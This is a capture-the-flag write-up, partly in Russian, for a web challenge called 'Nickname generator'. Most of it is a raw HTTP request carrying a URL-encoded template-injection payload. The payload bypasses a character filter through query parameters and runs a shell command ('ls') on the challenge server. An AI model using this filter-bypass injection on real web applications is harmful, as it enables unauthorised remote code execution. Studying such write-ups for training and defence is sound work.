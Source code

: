 # Nickname generator

  - Category: **web**
  - author: @kumfc

> Baba Kapa is going to register a Skype account, but do not really understand how to choose cool and zoomer-styled nickname. 
>We are going to suggest this service as an advice. So, can you look if it works properly? 

> task.pase.ca:24074

### Write-up

Открываем сервис, пробуем потыкать разные символы, понимаем что стоит фильтрация на ".", "_" и "'" и что мы можем проэксплуатировать ssti. Учитывая фильтрацию некоторых символов, раскручиваем до RCE. 
Получаем что-то вроде
>POST / HTTP/1.1
Host: task.pase.ca:24074
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://task.pase.ca:24074/
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 2773
Connection: keep-alive
Cookie: PHPSESSID=o705deb2ok30r83u7co9flcokn

>nickname=%7b%7b%20%28%28%28%28%32%7c%73%74%72%69%6e%67%7c%61%74%74%72%28%20%20%20%28%72%65%71%75%65%73%74%7c%61%74%74%72%28%5b%5b%5d%7c%6d%61%70%7c%73%74%72%69%6e%67%7c%6c%69%73%74%5d%5b%30%5d%5b%33%31%5d%20%2b%20%5b%5b%5d%7c%6d%61%70%7c%73%74%72%69%6e%67%7c%6c%69%73%74%5d%5b%30%5d%5b%31%39%5d%20%2b%20%5b%5b%5d%7c%6d%61%70%7c%73%74%72%69%6e%67%7c%6c%69%73%74%5d%5b%30%5d%5b%39%5d%2b%5b%5b%5d%7c%6d%61%70%7c%73%74%72%69%6e%67%7c%6c%69%73%74%5d%5b%30%5d%5b%32%31%5d%29%29%5b%5b%5b%5d%7c%6d%61%70%7c%73%74%72%69%6e%67%7c%6c%69%73%74%5d%5b%30%5d%5b%31%5d%5d%20%20%20%29%29%7c%61%74%74%72%28%20%20%28%72%65%71%75%65%73%74%7c%61%74%74%72%28%5b%5b%5d%7c%6d%61%70%7c%73%74%72%69%6e%67%7c%6c%69%73%74%5d%5b%30%5d%5b%33%31%5d%20%2b%20%5b%5b%5d%7c%6d%61%70%7c%73%74%72%69%6e%67%7c%6c%69%73%74%5d%5b%30%5d%5b%31%39%5d%20%2b%20%5b%5b%5d%7c%6d%61%70%7c%73%74%72%69%6e%67%7c%6c%69%73%74%5d%5b%30%5d%5b%39%5d%2b%5b%5b%5d%7c%6d%61%70%7c%73%74%72%69%6e%67%7c%6c%69%73%74%5d%5b%30%5d%5b%32%31%5d%29%29%5b%5b%5b%5d%7c%6d%61%70%7c%73%74%72%69%6e%67%7c%6c%69%73%74%5d%5b%30%5d%5b%32%5d%5d%20%20%29%29%5b%31%5d%7c%61%74%74%72%28%20%20%28%72%65%71%75%65%73%74%7c%61%74%74%72%28%5b%5b%5d%7c%6d%61%70%7c%73%74%72%69%6e%67%7c%6c%69%73%74%5d%5b%30%5d%5b%33%31%5d%20%2b%20%5b%5b%5d%7c%6d%61%70%7c%73%74%72%69%6e%67%7c%6c%69%73%74%5d%5b%30%5d%5b%31%39%5d%20%2b%20%5b%5b%5d%7c%6d%61%70%7c%73%74%72%69%6e%67%7c%6c%69%73%74%5d%5b%30%5d%5b%39%5d%2b%5b%5b%5d%7c%6d%61%70%7c%73%74%72%69%6e%67%7c%6c%69%73%74%5d%5b%30%5d%5b%32%31%5d%29%29%5b%5b%5b%5d%7c%6d%61%70%7c%73%74%72%69%6e%67%7c%6c%69%73%74%5d%5b%30%5d%5b%33%5d%5d%20%20%29%29%28%29%5b%32%38%36%5d%28%5b%20%20%28%72%65%71%75%65%73%74%7c%61%74%74%72%28%5b%5b%5d%7c%6d%61%70%7c%73%74%72%69%6e%67%7c%6c%69%73%74%5d%5b%30%5d%5b%33%31%5d%20%2b%20%5b%5b%5d%7c%6d%61%70%7c%73%74%72%69%6e%67%7c%6c%69%73%74%5d%5b%30%5d%5b%31%39%5d%20%2b%20%5b%5b%5d%7c%6d%61%70%7c%73%74%72%69%6e%67%7c%6c%69%73%74%5d%5b%30%5d%5b%39%5d%2b%5b%5b%5d%7c%6d%61%70%7c%73%74%72%69%6e%67%7c%6c%69%73%74%5d%5b%30%5d%5b%32%31%5d%29%29%5b%5b%5b%5d%7c%6d%61%70%7c%73%74%72%69%6e%67%7c%6c%69%73%74%5d%5b%30%5d%5b%35%5d%5d%20%20%5d%2c%20%73%68%65%6c%6c%3d%54%72%75%65%2c%20%73%74%64%6f%75%74%3d%2d%31%29%29%20%7c%20%61%74%74%72%28%20%20%28%72%65%71%75%65%73%74%7c%61%74%74%72%28%5b%5b%5d%7c%6d%61%70%7c%73%74%72%69%6e%67%7c%6c%69%73%74%5d%5b%30%5d%5b%33%31%5d%20%2b%20%5b%5b%5d%7c%6d%61%70%7c%73%74%72%69%6e%67%7c%6c%69%73%74%5d%5b%30%5d%5b%31%39%5d%20%2b%20%5b%5b%5d%7c%6d%61%70%7c%73%74%72%69%6e%67%7c%6c%69%73%74%5d%5b%30%5d%5b%39%5d%2b%5b%5b%5d%7c%6d%61%70%7c%73%74%72%69%6e%67%7c%6c%69%73%74%5d%5b%30%5d%5b%32%31%5d%29%29%5b%5b%5b%5d%7c%6d%61%70%7c%73%74%72%69%6e%67%7c%6c%69%73%74%5d%5b%30%5d%5b%36%5d%5d%20%29%28%29%20%7d%7d&g=__class__&e=__mro__&n=__subclasses__&r=ls&a=communicate

Смотрим исходники сервиса, расшифровываем флаг.
